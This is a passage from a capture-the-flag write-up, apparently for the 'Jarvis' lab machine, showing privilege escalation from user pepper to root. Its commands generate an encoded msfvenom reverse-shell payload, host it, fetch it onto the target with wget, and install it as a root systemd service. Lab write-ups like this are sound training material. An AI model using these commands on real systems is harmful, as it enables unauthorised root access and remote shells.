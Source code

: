 This returns a shell as `pepper`, which gives `user.txt`:

![pepper](./jarvis/pepper.png)

Looking for SUID binaries shows something interesting:

```bash
find / -perm -u=s -type f -exec ls -lad {} \; 2>/dev/null
```

![suid](./jarvis/suid.png)

`systemctl` is not a common SUID binary. It also has an entry in GTFOBINS:

- https://gtfobins.github.io/gtfobins/systemctl/

It can be abused to elevate privileges by creating a service that is installed and run as root. Generate another reverse shell payload for root, upload it, and install it as a service:

```bash
# on kali, generate payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=5050 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf \
         -o bubba.root.elf
# on kali, host the payload
python3 -m http.server 7777
# listen for callback
nc -nvlp 5050
# on target, download root payload
cd ~ # NOTE: using tmpfs does not work well with systemctl ... 
wget http://10.10.14.23:7777/bubba.root.elf && chmod +x bubba.root.elf
# on target, create the service
SERVICE_FILE=$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 20 ; echo '').service
cat << 'EOF' >> $SERVICE_FILE
[Service]
Type=simple
User=root
ExecStart=/home/pepper/bubba.root.elf
[Install]
WantedBy=multi-user.target
EOF
```